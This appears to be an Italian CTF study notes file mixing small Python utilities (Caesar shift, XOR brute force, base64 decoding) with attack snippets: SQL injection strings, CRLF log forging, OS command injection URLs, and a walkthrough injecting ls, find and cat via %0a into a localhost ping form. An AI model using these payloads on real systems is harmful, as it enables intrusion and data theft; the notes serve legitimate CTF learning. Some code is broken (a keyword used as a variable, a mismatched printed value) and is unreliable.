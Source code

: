 # Funzioni a caso

### Shifting di una stringa "abc" -> "cde"

```python
input = 'abc'
key = 2
output = ''

for c in input:
    output += chr(ord(c) + key)
print(output)
```

-------------------------

### Generazione stringa random

```python
import random
import string


vocabulary = list(string.ascii_letters) + list(string.digits)
pass = ""
size = 10

for i in range(size):
    random.shuffle(vocabulary)
    pass += vocabulary[0]
print(f"Password: {password}")
```

```python
import random
import string

letters = string.ascii_lowercase

def get_random_string(length):
    result_str = ''.join(random.choice(letters) for i in range(length))
    return result_str

print(get_random_string(8))
```

-------------------------

### Prendere tutti caratteri maiuscoli da file

```python
file1 = open('input.txt', 'r')
lines = file1.readlines()

out = ""
for linea in lines:
    linea = linea.strip()
    for char in linea:
        if ord(char)>64 and ord(char)<=64+32:
            out += char

print(out)
```

-------------------------

### Decodifica da base64 a stringa

```python
import base64
 
b64 = "fYZ7ipGIjFtsXpNLbHdPbXdaam1PS1c5lQ=="
bytes = base64.b64decode(b64)
stringa = bytes.decode("UTF-8")
```

-------------------------

### Bruteforce Cesare da Base64

```python
import base64
 
b64 = "INSERIRE QUI IL BASE64=="
bytes = base64.b64decode(b64)

for i in range (0, 256):
    for byte in bytes:
        print(chr((byte+i)%256), end="")
    print(" ")
```

--------------------

### Decodifica cifrario di Vigenere
<https://www.dcode.fr/vigenere-cipher>

--------------------

### Decodifica cifrario a sostituzione (Substitution)
<https://www.guballa.de/substitution-solver>

--------------------

### Sito per md5, sha1, sha256 ecc...
<https://crackstation.net/>

<https://www.tunnelsup.com/hash-analyzer/>

--------------------

### SQL Injection

```
' OR 1='1
' or 1=1--
```

------------------

### CRLF Attack

```
if an attacker can execute the CRLF attack, he can fake the log content
/index.php?page=home& %0d%0a 127.0.0.1 - 08:15 - /index.php?page=home&restricredredactio=edi
```

------------------

### OS Command Injection Attack

```
http://example.com/ping.php?address=8.8.8.8 %26ls
Note that 26 -> &
```

--------------

### XOR ripetuto con LEN(S1) > LEN(S2)

```python
import string

alph = list(string.ascii_uppercase)
f = open("encrypted", "r").readline()

def customXOR(text, key):
    out = ""
    for i in range(0, len(text)):
        out += (chr( ord(text[i]) ^ ord(key[i%2])))
    return out
                 
for a in alph:
    for b in alph:
        key = a+b
        if "spritz" in customXOR(f, key) : print(customXOR(f, key))
```

------------------------

###  Rimpiazzo caratteri in stringhe

```python
string = "Palle"
new_string = string.replace("e", "a") 
  
print(new_string)   #STAMPA: "Palla"
```

------------------------

### String Interpolation

```python
'%s is smaller than %s' % ('one', 'two')

print("Mr. %s, the total is %.2f." % ("Jekyll", 15.53))
'Mr. Jekyll, the total is 15.33.'

>>> place = "New York"
>>> print("Welcome to %s!" % place)
Welcome to New York!

palle = {"allowed_flag":"sos", "palle1":"palle2"}
str = "flag: %(allowed_flag)s" % palle
print(str)     #stampa "flag: sos"
```

------------------------

### CRLF Injection

<b>CR</b> = Carriage Return (\r) → Codifica HEX: 0x0d, <b>Codifica URL: %0d</b>

<b>LF</b> = Line Feed (\n) → Codifica HEX: 0x0a, <b>Codifica URL: %0a</b>


La combinazione di CRLF è l'effetto del tasto ENTER.

Torna molto utile la codifica URL di CR ed LF per esempio per le Injection.

<br>
Esempio di esercizio:

```html
<html>
<head><title>Can I haz Smart Cat ???</title></head>
<body>
  <h3> Smart Cat debugging interface </h3>

  <form method="post" action="index.cgi">
    <p>Ping destination: <input type="text" name="dest"/></p>
  </form>
  <p>Ping results:</p><br/>
  <pre></pre>
</body>
</html>
```
In cui si richiedeva di trovare la flag a partire da questa pagina dove era possibile effettuare "solamente" il ping. Utilizzare spazi, &&, || e altri comandi di altri tipo risulta inutile in quanto il codice ne previene l'uso.

Se si visualizza il pacchetto POST, nel body si trova dest=indirizzo ip, dove dest sta a identificare l'argomento presente nell'inputbox. Sfruttando il comando curl, possiamo ri-effettuare il comando, scrivendo dest=ipaddr<b>%0a</b>ls. 
```sh
#ls tramite Line feed
curl -XPOST -d 'dest=0.0.0.0%0als' 'http://localhost:8090/'
```
Una volta inviato, da terminale appare l'effetto del ping e il ritorno di ls (in questo caso consiste di un file python e della cartella there). Siccome non sono accettati spazi di alcuni tipo, l'unico modo è utilizzare il comando <b>find</b> per analizzare tutte le sottocartelle, trovando così la posizione della flag.
```sh
#find tramite Line feed
curl -XPOST -d 'dest=0.0.0.0%0afind' 'http://localhost:8090/'
```

Infine, per utilizzare il cat senza spazi, utilizziamo il comando col redirect, ovvero
```sh
cat<path/to/flag.txt

#Caso particolare dell'esercizio
curl -XPOST -d 'dest=0.0.0.0%0acat<./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag' 'http://localhost:8090/'
```